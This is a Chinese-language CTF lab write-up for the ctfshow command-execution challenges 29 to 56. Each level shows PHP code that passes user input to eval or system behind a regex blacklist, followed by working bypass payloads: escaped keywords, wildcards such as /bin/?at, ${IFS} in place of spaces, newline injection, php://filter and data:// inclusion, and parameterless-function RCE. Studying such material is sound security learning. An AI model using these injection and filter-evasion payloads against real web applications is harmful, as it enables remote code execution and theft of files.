





# ctfshow 命令执行

## 29 过滤flag

正则过滤flag,有很多方法绕过,

```
system('cat fla\g.php');
变量拼接
fla''g
正则绕过 f*
```

## 30 过滤system

```PHP
if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    } 
```

system函数过滤掉了可以使用echo ``;

```
echo%20`fla\g.p\hp`;
此外还有很多命令执行函数
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
```

## 31 过滤cat

```php
 if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
```

### cat被过滤,使用其他读取函数

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
pr:
php:
sh:
```

### 空格绕过

```
> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09
%00-%ff
```

### 简单的绕过正则

```
''
\
*
变量拼接
```

## 32 过滤echo和括号

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    } 
```

过滤了echo和括号,无法使用函数绕过



可以结合文件包含漏洞使用

payload：

```php
?c=include%09$_GET[%22x%22]?>&x=php://filter/read=convert.base64-encode/resource=flag.php
```

这里涉及到一个问题,就是不能使用;因为分号被ban,查看官方文档,发现可以使用?>来结束eval()



## 33

```PHP
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    } 
```

这次双引号也被ban

payload

```
?c=include%09$_GET[x]?>&x=php://filter/read=convert.base64-encode/resource=flag.php
```

## 34

多过滤了一个:

## 35

多过滤了一个< ,同33

## 36

多过滤一个 数字

## 37

使用伪协议读取文件





## 38

又过滤php ，file

使用data协议

## 39

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c."php");
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

```
payload c=data:text/plain,<?php system('cat f*')?>
```

 这样就相当于执行了php语句`<?php system('cat f*')?>.php`
 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么作用。

## 40 无参函数绕过

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

禁掉了 \不能用伪协议

禁掉了 \`    不能使用echo 

禁掉了 ”“ 和 ‘ ’ ,[ ] 不能使用带参数的函数（正则表达式里面ban的是中文括号） 

这里使用无参RCE

```
遍历目录 print_r(scandir(current(localeconv())));
show_source(array_rand(array_flip(scandir(current(localeconv())))));
show_source(next(array_reverse(scandir(current(localeconv())))));
```

也可以使用 session_id(session_start()),但是没有成功，因为session_id规定为0-9，a-z,A-Z,-中的字符

## 41 未解出

## 42

与43相同

## 43  绕过 >/dev/null 2>&1

```PHP
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

这里有一个>/dev/null 2>&1

参考链接:https://www.cnblogs.com/ultranms/p/9353157.html

总之就是将输出丢弃

这里可以利用换行符绕过,也可以使用||

```
c=ls%0a
c=c\at flag.php%0a
```

## 47

又过滤了几个查看文件命令

```
nl%09fla?.php%0a
```

## 50

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```
nl<>fla\g.php%0a
```

## 52

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

又ban掉了<>

换一个空格绕过

```
nl${IFS}fl?g.php%0a
```

## 54 /bin/?at 绕过

```PHP
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

```
?c=paste${IFS}fla?.php%0a

?c=/bin/?at${IFS}f?ag.php%0a

?c=/bin/?at${IFS}f??????
```

```
这里要注意有的时候可能会被意外截获

比如如果你用 /bin/?at${IFS}fl??.php%0a       那就会被.\*n.\*l.*栏下

还有可能是环境问题 /bin/past?${IFS}flag.php,在本地是能够运行的但是在此题当中却出不来结果
```

/bin 目录是存指令的地方



## 55 过滤所有小写字母

```PHP
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

过滤了所有小写字符,但是没有过滤通配符，可以使用带数字的命令绕过

base64的使用

有个命令是/bin/base64，我们可以据此构造

```
?c=/???/????64 ????????
```

得到

```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMg QERhdGU6ICAgMjAyMC0wOS0wNyAxOTo0MDo1Mw0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhh DQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDcgMTk6NDE6MDANCiMgQGVtYWlsOiBo MXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxh Zz0iZmxhZ3tlYTY0MTJlZi03NGY3LTQ1ZjItYWJiYS05M2Y2ODZkOTkwZDh9Ijs= 
```

解码即得到flag.

**bzip2**

bzip2 是 linux 下面的压缩文件的命令。在`/usr/bin/bzip2`

构造

```
?C=/???/???/????2 ????????
```

然后访问`flag.php.bz2`下载即可获得 flag.php

## 56 过滤所有大小写字母+数字

```php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

越到后面越神仙了,全都不会做,这题过滤了字母加数字,但是没有过滤运算符,

参考文章:不包含数字和字母的webshell： https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

这里提供两种方法:

```
1.通过位运算符构造payload
2.利用自增运算符构造payload
```

但是自己做的话我觉得是要写一个python脚本来算的,就先留在这里,过几天来写

就先做到这里,剩下的过几天再来做